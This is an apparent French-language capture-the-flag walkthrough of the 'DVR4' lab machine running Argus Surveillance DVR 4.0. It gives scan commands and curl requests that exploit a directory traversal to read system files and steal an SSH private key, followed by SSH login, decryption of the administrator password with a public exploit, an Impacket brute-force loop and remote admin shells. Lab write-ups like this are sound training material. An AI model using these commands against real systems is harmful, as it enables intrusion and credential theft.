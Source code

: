   # DVR4

	sudo masscan -p1-65535,U:1-65535 192.168.174.179 -e tun0 > ports.txt
	sudo nmap -p- -sV -T4 192.168.174.179 -oN nmap.txt
	feroxbuster --silent -u http://192.168.174.179:8080
	
Scans classiques.

    PORT STATE SERVICE VERSION  
    22/tcp open ssh Bitvise WinSSHD 8.48 (FlowSsh 8.48; protocol 2.0; non-commercial use)  
    135/tcp open msrpc Microsoft Windows RPC  
    139/tcp open netbios-ssn Microsoft Windows netbios-ssn  
    445/tcp open microsoft-ds?  
    5040/tcp open unknown  
    8080/tcp open http-proxy  
    49664/tcp open msrpc Microsoft Windows RPC  
    49665/tcp open msrpc Microsoft Windows RPC  
    49666/tcp open msrpc Microsoft Windows RPC  
    49667/tcp open msrpc Microsoft Windows RPC  
    49668/tcp open msrpc Microsoft Windows RPC  
    49669/tcp open msrpc Microsoft Windows RPC

http://192.168.174.179:8080/ActiveXIFrame.html => Création de caméras
</br>http://192.168.174.179:8080/Users.html => Liste des utilisateurs (Administrator et Viewer)

Le site utilise Argus Surveillance DVR 4.0 comme l'indiquent les en-têtes du site et le titre de la VM. Il y a plusieurs exploits existants : 
	</br>- https://www.exploit-db.com/exploits/50261
	</br>- https://www.exploit-db.com/exploits/50130
	</br>- https://www.exploit-db.com/exploits/45312
	</br>- https://www.exploit-db.com/exploits/45296

Le seul que l'on peut utiliser pour l'instant est l'exploit de type Directory Traversal, et en effet le PoC fonctionne bien. J'ai également réussi à avoir le fichier **C:\Windows\System32\drivers\etc\hosts** mais il ne contenait rien d'intéressant. On a vu qu'il y avait un service SSH et on connaît le nom de deux utilisateurs, j'ai essayé les fichiers **C:\Users\Administrator\\.ssh\id_rsa** et  **C:\Users\Viewer\\.ssh\id_rsa** et le deuxième est passé. J'ai aussi testé **%UserProfile%\\.ssh\id_rsa** par curiosité mais sans succès. 


	curl "http://192.168.174.179:8080/WEBACCOUNT.CGI?OkBtn=++Ok++&RESULTPAGE=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2FWindows%2Fsystem.ini&USEREDIRECT=1&WEBACCOUNTID=&WEBACCOUNTPASSWORD="

	curl --output id_rsa "http://192.168.174.179:8080/WEBACCOUNT.CGI?OkBtn=++Ok++&RESULTPAGE=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2FUsers%2FViewer%2F.ssh%2Fid_rsa&USEREDIRECT=1&WEBACCOUNTID=&WEBACCOUNTPASSWORD="

	chmod 600 id_rsa

	ssh -i id_rsa -l Viewer 192.168.174.179
	...
	type C:\Users\Viewer\Desktop\local.txt

### Élévation de privilèges :

On reprend l'exploit /50130 trouvé plus haut. Attention à bien prendre le mot de passe chiffré de l'administrateur et non pas celui de Viewer. Il faut prendre celui que l'on trouve en premier après la ligne "LoginName0=Administrator" et le remplacer dans l'exploit.

	python exploit_Argus_DVR_50130.py

On obtient le résultat suivant : 

    [+] ECB4:1
    [+] 53D1:4
    [+] 6069:W
    [+] F641:a
    [+] E03B:t
    [+] D9BD:c
    [+] 956B:h
    [+] FE36:D
    [+] BD8F:0
    [+] 3CD9:g
    [-] D9A8:Unknown

Le problème est que le dernier caractère n'a pas été trouvé. Au lieu de bêtement tester manuellement tous les caractères spéciaux j'ai décidé d'automatiser le processus avec Impacket et une boucle. J'ai choisi le service SMB parce que je l'ai vu sur Nmap et parce que c'est généralement une valeur sûre . Par chance le caractère manquant était un "$" et j'avais pensé à l'inclure dans le tableau dès mes premiers tests. Impacket ne m'a sorti que des erreurs mais l'erreur du "$" était différente et cela a attiré mon attention. En revanche la connexion se fermait directement et j'ai dû faire autrement pour la vraie connexion finale : 

	Array=("\\"  "\$"  "\#"  "\@"  "\!"  "\?"  "\^")
	for i in $Array ;  do  print $i ;  impacket-smbexec Administrator:"14WatchD0g$i"@192.168.174.179;  done
	...
	impacket-smbexec Administrator:'14WatchD0g$'@192.168.174.179
	...
	impacket-wmiexec Administrator:'14WatchD0g$'@192.168.174.179 
	C:\>whoami
	C:\>type C:\Users\Administrator\Desktop\proof.txt
	

